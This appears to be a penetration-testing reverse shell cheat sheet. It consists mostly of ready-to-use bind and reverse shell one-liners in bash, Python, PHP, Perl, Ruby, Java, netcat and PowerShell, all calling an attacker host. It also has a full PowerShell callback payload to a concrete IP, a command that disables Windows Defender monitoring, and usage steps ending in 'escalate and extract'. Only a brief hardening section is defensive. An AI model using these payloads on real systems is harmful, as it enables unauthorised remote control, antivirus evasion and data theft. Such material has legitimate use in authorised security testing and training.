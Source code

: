 

# 🧰 Reverse Shell Cheat Sheet

## 📡 Listener Setup & Shell Stabilization

### Start Listener
```bash
ncat -lvnp <PORT>
```

### Bash Shell Stabilization (after connection)
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Then:
Ctrl-Z
stty raw -echo
fg
export TERM=xterm
stty rows $(tput lines) columns $(tput cols)
clear
```

---

## Bind Shell

With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).

```bash
# Target Server
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f

# Connect from box
ncat 10.0.0.1 4242 -e /bin/bash

```

## Bash Reverse Shell

```bash
# Target
/bin/bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1
```

---

## Python Reverse Shell
```bash
python -c 'import socket,os,subprocess;
s=socket.socket();s.connect(("<ATTACKER_IP>",<PORT>));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
subprocess.call(["/bin/sh","-i"]);'
```

---

## PHP Reverse Shell
```php
php -r '$sock=fsockopen("<ATTACKER_IP>",<PORT>);
exec("/bin/sh -i <&3 >&3 2>&3");'
```

---

## Perl Reverse Shell
```perl
perl -e 'use Socket;
$i="<ATTACKER_IP>";$p=<PORT>;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
  open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");
  exec("/bin/sh -i");
};'
```

---

## Ruby Reverse Shell
```ruby
ruby -rsocket -e 'exit if fork;
c=TCPSocket.new("<ATTACKER_IP>","<PORT>");
while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

---

## Java Reverse Shell
```java
r = Runtime.getRuntime();
p = r.exec(new String[]{
  "/bin/bash","-c",
  "exec 5<>/dev/tcp/<ATTACKER_IP>/<PORT>;" +
  "cat <&5 | while read l; do $l 2>&5 >&5; done"
});
p.waitFor();
```

---

## Netcat Reverse Shell
```bash
rm /tmp/f; mkfifo /tmp/f;
cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> <PORT> >/tmp/f
```

---

## PowerShell Reverse Shell (Windows)
```powershell
$sm=(New-Object Net.Sockets.TCPClient("<ATTACKER_IP>",<PORT>)).GetStream();
[byte[]]$bt=0..255|%{0};
while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){
  $d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);
  $st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));
  $sm.Write($st,0,$st.Length)
}
```

## Simple Reverse Shell in Windows

Bind to common port 443 to avoid firewall restrictions

```bash
# Server setup
sudo nc -lvnp 443
```

```powershell
# Payload on target, RCE cmd.exe
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.178',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# Dissable A/V if needed as admin
Set-MpPreference -DisableRealtimeMonitoring $true

```

---

## Hardening / Detection Notes
- Outbound firewall filtering helps prevent shell callbacks.
- Remove common interpreters (`bash`, `python`, `php`) when not needed.
- Use detection rules for outbound socket behavior and reverse shell signatures.
- Proper input sanitization and secure coding are the best defenses.

---

**Usage**:
1. Set up listener.
2. Inject the payload.
3. Stabilize shell (if Linux).
4. Escalate and extract.